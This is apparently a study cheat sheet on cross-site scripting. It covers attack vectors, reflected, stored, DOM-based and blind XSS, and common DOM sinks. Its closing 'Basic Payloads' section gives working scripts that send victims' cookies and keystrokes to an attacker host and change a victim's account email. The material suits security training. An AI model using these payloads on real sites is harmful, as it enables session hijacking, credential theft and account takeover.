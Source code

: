 # Cross Site Scripting(XSS)

### Attack Vectors

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

<!-- -->
				Reflected XSS
##### Reflected XSS arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

-   Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

<!-- -->


Examples:
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

<!-- -->

				Stored XSS				
##### The payload is stored on the web application and then gets run when other users visit the site or web page.
Examples:
- Comments on a blog
- User profile information
-  Nicknames in a chatroom  
- Website Listings

<!-- -->

				Dom-Based XSS		
##### Contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

- Attack vector is usually the url

- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

- attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with.

Common sinks that lead to Dom-XSS:
-  document.write()
-  document.writeln()
-  document.domain
-  element.innerHTML
-  element.outerHTML
-  element.insertAdjacentHTML
-  element.onevent

<!-- -->

 
					Blind XSS				
##### your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Basic Payloads
## Cookie stealing
python -m SimpleHTTPServer 80
`<script>new Image().src="http://$IP/index.php?c="+document.cookie;</script>`

## Key logger 
`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

## Business Logic(so you can change their Password)
`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Beef Framework

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
